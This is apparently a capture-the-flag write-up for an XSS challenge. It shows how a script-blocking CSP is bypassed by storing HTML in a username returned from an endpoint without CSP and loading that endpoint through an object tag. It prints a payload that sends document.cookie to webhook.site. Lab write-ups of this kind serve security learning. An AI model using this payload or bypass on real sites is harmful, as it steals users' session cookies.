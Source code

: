 ```yaml
---
created: 2024-06-21T20:15
updated: 2025-01-06T23:26
points: 202
solves: 89
tags:
  - xss
  - csp-bypass
---
```


This page is protected by csp `default-src 'self', script-src 'none'`.

> Ignite it to steal the cookie!

After countless attempts, I've realised that no script will run basically.

But... the endpoint `/username/:id` is open and will return plain text username.
It does not have any CSP.

We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`. This is kinda like a iframe, so CSP won't apply to contents within it.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```flag
FLAG{n0scr1p4_c4n_be_d4nger0us}
```
